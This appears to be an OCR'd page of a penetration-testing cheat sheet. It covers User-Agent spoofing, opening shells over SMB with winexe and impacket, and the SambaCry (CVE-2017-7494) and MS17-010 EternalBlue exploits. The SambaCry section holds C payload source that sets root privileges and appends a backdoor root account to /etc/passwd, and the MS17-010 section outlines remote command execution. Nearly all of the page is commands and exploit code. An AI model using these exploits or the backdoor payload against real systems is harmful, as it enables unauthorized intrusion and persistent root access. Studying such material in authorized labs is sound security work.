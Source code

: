 -----

#### User-Agent Forgery

* `curl -H "User-Agent: {user_agnet}" http://{IP}`
  * User-Agent
    * `Googlebot`

-----

### SMB

- Smb to Shell
    - `winexe -U '{username}' //{IP} cmd.exe`
    - `impacket-smbexec '{username}:{password}'@{ip}`
    - `impacket-psexec {username}:{password}'@{ip}`
- Check version
    - Open Wireshark
        - `smbclient -N -L "//{IP}/" --option='client min protocol=nt1'`
    - Metasploit
        - `scanner/smb/smb_version`

-----

#### CVE-2017-7494 SambaCry
- https://github.com/joxeankoret/CVE-2017-7494
    - `python2 cve_2017_7494.py -t {IP} --custom command.so`
    - `gcc -o command.so -shared command.c -fPIC`
        - ```C=
          #include <stdio.h>
          #include <unistd.h>
          #include <netinet/in.h>
          #include <sys/types.h>
          #include <sys/socket.h>
          #include <stdlib.h>
          #include <sys/stat.h>
          int samba_init_module(void)
            {
              setresuid(0,0,0); 
              system("echo root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash >> /etc/passwd");
              return 0;
            }
              ```

-----

#### MS17-010

* Metasploit
  - `exploit/windows/smb/ms17_010_eternalblue`
* [Github MS17-010](https://github.com/helviojunior/MS17-010)
  - Normal
    - Prepare shell.exe
    - Run `checker.py` check pipes
    - Run `send_and_execute.py`
  - If no reply
    - Run `zzz_exploit.py`, change `smb_pwn` function
    - `service_exec(conn,r'cmd /c {command}')`
